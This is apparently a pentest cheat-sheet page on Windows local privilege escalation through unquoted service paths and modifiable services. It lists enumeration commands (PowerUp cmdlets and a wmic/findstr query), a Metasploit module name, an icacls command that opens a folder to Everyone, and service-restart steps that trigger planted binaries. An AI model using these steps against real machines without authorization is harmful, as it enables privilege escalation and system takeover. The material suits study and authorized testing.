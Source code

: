 Areas we can place files for exploit are marked with *
```
C:\PROGRAM*FILES\SUB*DIR\PROGRAM*NAME
```

Examples:
```
c:\program.exe files\sub dir\program name
c:\program files\sub.exe dir\program name
c:\program files\sub dir\program.exe name
```

### Service binary in a location writable to current user

Replace the binary to gain code execution.

```
Get-ModifiableServiceFile -Verbose
```

### Service can be modified by current user

```
Get-ModifiableService -Verbose
```

## Techniques

### Service Unquoted Path

- `exploit/windows/local/trusted_service_path`

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
```
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe

Leads to running:
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```

Insecure Setup:
```
C:\Program Files (x86)>icacls "C:\Program Files (x86)\Program Folder" /grant Everyone:(OI)(CI)F /T

F = Full Control
CI = Container Inherit – This flag indicates that subordinate containers will inherit this ACE.
OI = Object Inherit – This flag indicates that subordinate files will inherit the ACE.
```
```
sc stop "Vulnerable Service"
sc start "Vulnerable Service"

OR

shutdown /r /t 0
```
